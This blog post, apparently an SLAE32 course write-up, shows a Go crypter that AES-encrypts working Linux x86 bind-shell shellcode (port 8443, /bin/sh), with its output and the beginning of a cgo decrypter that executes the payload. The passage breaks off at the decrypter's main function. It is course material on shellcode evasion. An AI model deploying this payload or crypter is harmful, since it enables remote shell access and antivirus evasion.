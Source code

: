 ### Testing out Encryption

To compile and run the code `go build aes_dec.go` and i've used `deadbeefdeafface` as key for argument. 

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/go$ go run aes_enc.go deadbeefdeafface
[+] Original shellcode:
0x31,0xc9,0xf7,0xe1,0x99,0x6a,0x66,0x58,0x6a,0x1,0x5b,0x51,0x6a,0x1,0x6a,0x2,0x89,0xe1,0xcd,0x80,0x97,0x6a,
0x66,0x58,0x6a,0x2,0x5b,0x52,0x66,0x68,0x20,0xfb,0x66,0x53,0x89,0xe1,0x6a,0x10,0x51,0x57,0x89,0xe1,0xcd,0x80,
0x6a,0x66,0x58,0x6a,0x4,0x5b,0x31,0xf6,0x56,0x57,0x89,0xe1,0xcd,0x80,0x6a,0x66,0x58,0x6a,0x5,0x5b,0x56,0x56,
0x57,0x89,0xe1,0xcd,0x80,0x89,0xc3,0x6a,0x2,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x6a,0xb,0x58,0x31,0xc9,
0x51,0x51,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0xcd,0x80

[x] Key:
deadbeefdeafface

[+] Trying to encrypt the shellcode..
Iter:  0
[*] Encrypted shellcode (null free):
0x17,0xdc,0x65,0xe5,0x7b,0xcf,0x23,0xee,0xfa,0xb2,0xb5,0x80,0x88,0x6b,0x47,0xd5,0x46,0x3c,0xbc,0xe8,0x1a,0xd0,
0x39,0xac,0x41,0x1f,0xa8,0xfa,0xf4,0xc5,0xb4,0x99,0x1f,0x9d,0xda,0x91,0x42,0x1b,0xb1,0x7a,0x8e,0x52,0x50,0xc2,
0xf6,0xcc,0xf3,0xef,0xb5,0xb2,0x18,0x1a,0x20,0x66,0x2b,0x77,0xd5,0x63,0x8,0x5,0xee,0xb8,0xde,0x4d,0xd5,0x5a,
0x7e,0xd7,0x68,0x24,0x61,0x8,0x44,0x4d,0x2,0x2c,0xda,0x50,0xb4,0x55,0x1,0xa9,0x3e,0x99,0xd8,0xfa,0x39,0xa6,
0x9b,0xc9,0x1f,0xcd,0x13,0xb9,0xd6,0x5b,0x26,0x15,0xbd,0xd4,0x80,0x47,0x11,0x4,0x55,0xf9,0xde,0xa4,0x7,0xd9,
0x4f,0x2b,0x9f,0x51,0xac,0x9,0x91,0xd2,0x56,0x53
{% endhighlight %}

## Decryption

After run the encryption program, the encrypted shellcode result we can put on the decrypt code below. After encrypyted shellcode decrypted successfully the program will execute the shellcode.

{% highlight golang linenos %}
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"encoding/hex"
	"fmt"
	"os"
	"unsafe"
)

/*
#include<stdio.h>
#include<string.h>

void run_shellcode(char *code)
{
    int (*ret)() = (int(*)())code;
    ret();
}
*/
import "C"

func main() {